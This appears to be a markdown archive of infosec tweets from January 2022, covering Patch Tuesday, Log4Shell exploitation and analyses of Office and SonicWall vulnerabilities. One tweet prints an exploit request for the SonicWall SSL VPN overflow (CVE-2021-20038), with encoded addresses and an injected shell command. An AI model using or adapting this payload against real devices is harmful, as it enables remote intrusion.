<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>41</code></td>
<td>Retweets: <code>223</code></td>
<td>Favorites: <code>1742</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1481158216390426628 _at 2022-01-12, 06:56:52_**
<blockquote>
Sonicwall SSL VPN nobody BOF RCE (CVE-2021-20038)

GET /%04%d7%7f%bf%18%d8%7f%bf%18%d8%7f%bf%64%b8%06%08;{touch,/tmp/lol};%04%d7%7f%bf%18%d8%7f%bf%18%d8%7f%bf%64%b8%06%08;{touch,/tmp/lol};?aaaaaaaa...

https://t.co/y7NggxNg1I https://t.co/UjS8nqhUHr
</blockquote>

* https://attackerkb.com/topics/QyXRC1wbvC/cve-2021-20038/rapid7-analysis?fbclid=IwAR1ldORiwotSY0HeF_aLrYra1LuvJk7nlzfWg1HOT8AvnnvBfVcvUE1siTw

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>250</code></td>
<td>Favorites: <code>670</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1481155830179581952 _at 2022-01-12, 06:47:23_**
<blockquote>
First #Microsoft Patch Tuesday update of 2022 fixes 96 new vulnerabilities, including a critical "wormable" Windows RCE #vulnerability (CVE-2022-21907) in the HTTP Protocol Stack.

Read details: https://t.co/GNeuIIB6m2

#infosec #cybersecurity
</blockquote>

* https://thehackernews.com/2022/01/first-patch-tuesday-of-2022-brings-fix.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>119</code></td>
<td>Favorites: <code>163</code></td>
</tr></table>

---

# mj0011sec
**https://twitter.com/mj0011sec/status/1480994719560003584 _at 2022-01-11, 20:07:11_**
<blockquote>
First patch Tuesday of 2022! Adobe and Microsoft fixed 6 vulnerabilities reported by Kunlun lab. Two of them were demoed @TianfuCup. The CVE-2021-44706 was the RCE of PDF reader full chain and the CVE-2021-21881 was the Ntoskrnl bug for Chrome sandbox escape.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>98</code></td>
</tr></table>

---

# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1480730559739359233 _at 2022-01-11, 02:37:30_**
<blockquote>
We have observed a China-based ransomware operator that we’re tracking as DEV-0401 exploiting the CVE-2021-44228 vulnerability in Log4j 2 (aka #log4shell) targeting internet-facing systems running VMWare Horizon. https://t.co/6GOdRwRTjk
</blockquote>

* https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/

<table><tr>
<td>Quotes: <code>23</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>386</code></td>
<td>Favorites: <code>681</code></td>
</tr></table>

---

# BillDemirkapi
**https://twitter.com/BillDemirkapi/status/1479879438036881417 _at 2022-01-08, 18:15:27_**
<blockquote>
New research! Unpacking CVE-2021-40444: A Deep Technical Analysis of an Office RCE Exploit https://t.co/q2QwkRfrvM
</blockquote>

* https://billdemirkapi.me/unpacking-cve-2021-40444-microsoft-office-rce

<table><tr>
<td>Quotes: <code>15</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>307</code></td>
<td>Favorites: <code>765</code></td>
</tr></table>

---

